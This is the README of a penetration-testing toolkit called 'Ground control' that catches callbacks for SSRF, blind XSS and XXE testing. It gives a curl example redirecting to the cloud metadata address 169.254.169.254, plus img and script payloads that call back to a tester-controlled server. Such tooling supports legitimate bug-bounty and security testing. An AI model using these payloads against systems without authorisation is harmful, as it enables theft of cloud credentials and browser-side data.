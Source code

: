 # Ground control
This is a collection of most of my scripts that I use to debug Server Side Request Forgery (SSRF), blind XSS, and insecure XXE processing vulnerabilities. This is still a work in progress, as I'm still collecting all the scripts that I have lingering around. Before using these scripts, I used to rewrite these scripts most of the time or set up listeners with `netcat`. That wasn't scalable, so I started collecting the scripts in a repository, which can be closed easily every time it's needed it on a server.

## Requirements
Running this script requires Ruby 2.3, a valid SSL certificate for a domain you own, and a web server that allows to open port `80`, `443`, `8080`, and `8443`. The use of each port will be explained in this document.

## Setting up
Clone this repository and install the required components by running `install.sh`. After that, run `start.sh` to start to listen on all ports. For now, `root` privileges are required because it listens on port `80` and `443`. A future version might solve this problem by switching to a different user context after startup.

## Functions

### Redirects
The `/redirect` endpoint is used to redirect a request to another server or endpoint. This may assist you when you need an external server to redirect back to an internal system. See below for examples.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"
```

### Ping Pong
Sometimes, you simply need a page that responds with a certain body and headers. The `/ping_pong` endpoint does exactly that. Here's a few examples.

```
curl -vv "http://server/ping_pong?body=%3ch1%3eHello%3c/h1%3e"
```

### Blind callbacks
To figure out of an inaccessible system is executing your HTML or XSS payload, add an item the `callback_tokens` in `config.json`. The structure is shown below. This callback contains information where you injected your payload. This will help you identify the root cause of the vulnerability if you receive a callback. Every unique combination of parameter, host, port, path, and method is supposed to have its own `callback_token`.

```
{
  "callback_tokens": {
    "ee34a1791ab345f789": {
      "host": "hackerone.com",
      "port": 443,
      "ssl": true,
      "path": "/webhooks",
      "parameter": "url",
      "method": "POST"
    }
  }
}
```

Depending on what type of vulnerability you want to test for, you have to construct a payload. See below for an example for HTML injections and XSS vulnerabilities. Then, submit the payload to the injection point. You'll see a log entry in `logs/access_log` when a request with that `callback_token` was triggered. Most of the time, I use `tail -f logs/access_log` to see if something triggered.

**HTML injection**
```
<img src="https://server/pixel?callback_token=ee34a1791ab345f789" style="display:none;"/>
```

**Blind XSS**
```
<script src="https://server/collect?callback_token=ee34a1791ab345f789"></script>
```

### Starting another server
The server listens on port `80`, `443`, `8080`, and `8443` by default. However, if you want to start another server on a different port, run `ruby app/server.rb -p :port`. To use SSL, append `-cert :cert.pem`. This is especially useful when a potential SSRF vulnerability only allows to connect on certain ports. Say bye to all the Apache and nginx configuration hacking!
